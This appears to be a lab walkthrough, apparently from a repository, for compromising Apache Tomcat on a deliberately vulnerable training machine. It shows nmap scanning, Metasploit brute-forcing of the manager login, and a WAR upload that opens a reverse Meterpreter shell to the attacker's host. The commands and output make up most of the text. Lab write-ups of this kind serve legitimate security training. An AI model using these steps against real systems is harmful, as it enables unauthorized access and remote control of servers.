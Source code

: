 # Tomcat

Goal of this attack is to deploy a reverse shell on the target machine.

## Port scanning to identify Tomcat

Let's scan the target machine (`canyoupwnme`) with `nmap`

    $ nmap -A -T4 -sT -p1-65535 canyoupwnme
    ...
    8080/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
    | http-methods:
    |   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
    |_  Potentially risky methods: PUT DELETE
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-server-header: Apache-Coyote/1.1
    |_http-title: Apache Tomcat
    ...

## Check what is available

With your browser, open the URL

    http://canyoupwnme:8080/manager

Seems that the Tomcat's management console is available, but authentication is
needed. Metsasploit can help us...

## Brute forcing the Tomcat's management console

    msf > use auxiliary/scanner/http/tomcat_mgr_login
    msf auxiliary(tomcat_mgr_login) > set rhosts canyoupwnme
    msf auxiliary(tomcat_mgr_login) > set rport 8080
    msf auxiliary(tomcat_mgr_login) > exploit

    [!] No active DB -- Credential data will not be saved!
    [-] 10.0.100.195:8080 TOMCAT_MGR - LOGIN FAILED: admin:admin (Incorrect: )
    [-] 10.0.100.195:8080 TOMCAT_MGR - LOGIN FAILED: admin:manager (Incorrect: )
    ...)
    [+] 10.0.100.195:8080 - LOGIN SUCCESSFUL: tomcat:tomcat
        ...
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    msf auxiliary(tomcat_mgr_login) > quit

Yep! Credentials `tomcat:tomcat` were found. Still using Metasploit, we can
upload a crafted `.WAR` in order to have a reverse TCP shell enabled.

## Injecting a reverse shell

    msf > use exploit/multi/http/tomcat_mgr_upload
    msf exploit(tomcat_mgr_upload) > set username tomcat
    msf exploit(tomcat_mgr_upload) > set password tomcat
    msf exploit(tomcat_mgr_upload) > set rhost canyoupwnme
    msf exploit(tomcat_mgr_upload) > set rport 8080
    msf exploit(tomcat_mgr_upload) > exploit

    [*] Started reverse TCP handler on 10.0.100.245:4444
    [*] canyoupwnme:8080 - Retrieving session ID and CSRF token...
    [*] canyoupwnme:8080 - Uploading and deploying Hv5hJD7sAuzbRX3UGWiOctD6yz3j...
    [*] canyoupwnme:8080 - Executing Hv5hJD7sAuzbRX3UGWiOctD6yz3j...
    [*] canyoupwnme:8080 - Undeploying Hv5hJD7sAuzbRX3UGWiOctD6yz3j ...
    [*] Sending stage (45741 bytes) to 10.0.100.195
    [*] Meterpreter session 1 opened (10.0.100.245:4444 -> 10.0.100.195:52043) at 2016-04-18 13:33:40 +0200

    meterpreter > shell
    Process 1 created.
    Channel 1 created.
    id
    uid=106(tomcat7) gid=114(tomcat7) groups=114(tomcat7)

Got it!

## Becoming `root`

Work in progress...
